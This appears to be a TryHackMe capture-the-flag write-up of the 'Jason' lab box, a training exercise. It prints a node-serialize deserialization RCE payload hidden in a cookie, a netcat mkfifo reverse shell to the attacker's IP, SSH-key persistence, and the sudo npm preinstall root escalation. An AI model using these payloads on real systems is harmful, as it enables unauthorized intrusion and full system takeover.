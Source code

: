 ```yaml
---
title: "TryHackMe - Jason"
author: Nasrallah
description: ""
date: 2023-05-27 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, nodejs, javascript, deserialization, sudo]
img_path: /assets/img/tryhackme/jason
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Jason](https://tryhackme.com/room/jason) from [TryHackMe](https://tryhackme.com). We find a node.js web site vulnerable to deserialization allowing remote code execution that leads to foothold. On the target box we can run npm as root so we exploit that to get a root shell.

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.239.172                                                                                                                            
Host is up (0.094s latency).                                                                                                                                  
Not shown: 998 closed tcp ports (reset)                                                                                                                       
PORT   STATE SERVICE VERSION                                                                                                                                  
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)                                                                             
| ssh-hostkey:                                                                                                                                                
|   3072 5b2d9d60a745de7a99203e4294ce193c (RSA)                                                                                                               
|   256 bf32780183af785ee7fe9c834a7daa6b (ECDSA)                                                                                                              
|_  256 12ab1380e5ad7307c848d5ca7c7de0af (ED25519)                                                                                                            
80/tcp open  http                                                                                                                                             
|_http-title: Horror LLC                                                                                                                                      
| fingerprint-strings:                                                                                                                                        
|   GetRequest:                                                                                                                                               
|     HTTP/1.1 200 OK                                                                                                                                         
|     Content-Type: text/html
|     Date: Mon, 29 May 2023 08:19:00 GMT

```

We found two open ports, 22 running OPENSSH and 80 is an http web server.

### Web

Let's navigate to the web page.

![](1.png)

The website is not completed yet, and we can sign up for a newsletter. Let's submit an email and intercept the request with burp.

![](2.png)

After submitting the email, we get a session cookie which is a base64 of `{"email":"hi@hi.me"}`

Now if we go to the website we can see our email

![](3.png)

## **Foothold**

With the help of this [article](https://medium.com/@chaudharyaditya/insecure-deserialization-3035c6b5766e), let's test if the website is vulnerable to deserialization.

We use the following payload that will return the word `HACKED` if there is a vulnerability.

```javascript
_$$ND_FUNC$$_function (){ return 'HACKED'; }()
```

Let's put it in the email field.

```json
{"email":"_$$ND_FUNC$$_function (){ return 'HACKED'; }()"}
```

And encode it with base64.

```text
eyJlbWFpbCI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbiAoKXsgcmV0dXJuICdIQUNLRUQnOyB9KCkifQ==
```

Now we replace the old cookie with the one we just created and send a request.

![](4.png)

We got the word `HACKED` back, this means the website is vulnerable.

Now let's use another payload that give us remote code execution.

```javascript
_$$ND_FUNC$$_function(){require('child_process').exec('CMD', function(error,stdout, stderr) { console.log(stdout) });}()
```

We need to replace `CMD` with the command we want to execute, and in this case we can try getting a reverse shell using `nc mkfifo`

```js
_$$ND_FUNC$$_function(){require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.9.76.240 9000 >/tmp/f', function(error,stdout, stderr) { console.log(stdout) });}()
```

Let's put the code above in the email field and encode it with base64 then send the request after setting up a netcat listener.

![](5.png)

We got a shell as `dylan`.

## **Privilege Escalation**

### Shell upgrade

On dylan's home directory i created a `.ssh` directory and uploaded my public key to it.

![](6.png)

Now used my private key to ssh as dylan.

![](7.png)

### dylan -->  root

Now let's check our privilege

```terminal
dylan@jason:~$ sudo -l
Matching Defaults entries for dylan on jason:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dylan may run the following commands on jason:
    (ALL) NOPASSWD: /usr/bin/npm *
```

We can run `npm` as root, checking [GTFOBins](https://gtfobins.github.io/gtfobins/npm/#sudo) we find a way to exploit that and get root.

```bash
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

The `TF=$(mktemp -d)` makes a temporary directory.

In `{"scripts": {"preinstall": "/bin/sh"}}`, the `scripts` object is used to define custom commands, and the `preinstall` is a key used to define a command that will be run before any packages, and in our case it's `/bin/sh` that gives us a root shell.

We put the script in `package.json` file that will be located in the temporary directory.

the `-C` option specifies the working directory. The `--unsafe-perm` is to run the scripts with root privileges and the `i` is for install

![](8.png)

We got root!

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

